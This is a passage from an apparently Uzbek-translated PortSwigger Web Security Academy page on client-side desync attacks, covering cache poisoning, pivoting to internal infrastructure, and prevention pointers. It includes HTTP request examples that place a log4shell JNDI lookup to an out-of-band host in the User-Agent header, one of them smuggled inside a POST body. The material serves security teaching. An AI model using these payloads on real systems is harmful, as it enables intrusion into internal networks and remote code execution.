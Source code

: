 Brauzer sahifani HTML sifatida yuklaganida, u faqat `<script>`teglardagi JavaScript-ni bajaradi. Natijada, uni JavaScript tarkibida yuklaganida, u faqat `alert()` ni bajaradi, qolganini dasturchining kommentariyasi sifatida o'qiydi.

:::caution **Lab**
 [Client-side desync orqali Browser cache poisoning ≫](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-browser-cache-poisoning-via-client-side-desync)
:::

Ushbu zaiflikni qanday qilib topganimiz haqida ko'proq ma'lumot olish uchun, PortSwigger Research tomonidan [" Brauzer tomonidan boshqariladigan sinxronizatsiya hujumlari:  HTTP request smugglingning yangi chegarasi](https://portswigger.net/research/browser-powered-desync-attacks#cisco)" ga qarang.

### Ichki infratuzilmaga qarshi hujumlar <a href="#pivoting-attacks-against-internal-infrastructure" id="pivoting-attacks-against-internal-infrastructure"></a>

Ko'pgina server-side desync hujumlari HTTP headerlarini faqat Burp Repeater kabi vositalar yordamida boshqarishni o'z ichiga oladi. Misol uchun, foydalanuvchining brauzerini `User-Agent` headerda log4shell payloadini joylab request yuborishga majburlash mumkin emas:

```http
GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: ${jndi:ldap://x.oastify.com}
```

Bu shuni anglatadiki, bu hujumlar odatda siz bevosita kirishingiz mumkin bo'lgan veb-saytlar bilan cheklangan. Biroq, agar veb-sayt client-side desync-ga qarshi himoyasiz bo'lsa, foydalanuvchining brauzerini quyidagi so'rovni yuborishga undash orqali kerakli natijaga erishishingiz mumkin:

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com
User-Agent: Mozilla/5.0 etc.
Content-Length: 86

GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: ${jndi:ldap://x.oastify.com}
```

Barcha requestlar foydalanuvchining brauzeridan kelib chiqqanligi sababli, bu sizga ular kirishi mumkin bo'lgan har qanday veb-saytga hujum qilish imkonini beradi. Bunga ishonchli intranetlarda joylashgan yoki IP-ga asoslangan himoya ortida yashiringan saytlar kiradi.

## Qanday qilib client-side desync zaifligining oldi olinadi <a href="#how-to-prevent-client-side-desync-vulnerabilities" id="how-to-prevent-client-side-desync-vulnerabilities"></a>

Client-side desync zaifliklari va desinxronlash hujumining boshqa shakllarini oldini olish uchun qilishingiz mumkin bo'lgan yuqori darajali ba'zi choralarni o'rganish uchun [HTTP request smuggling zaifliklarni qanday oldini olish mumkin](../http-request-smuggling/#qanday-qilib-http-request-smuggling-zaifliklarini-oldini-olish-mumkin) nomli mavzuni o'qing.
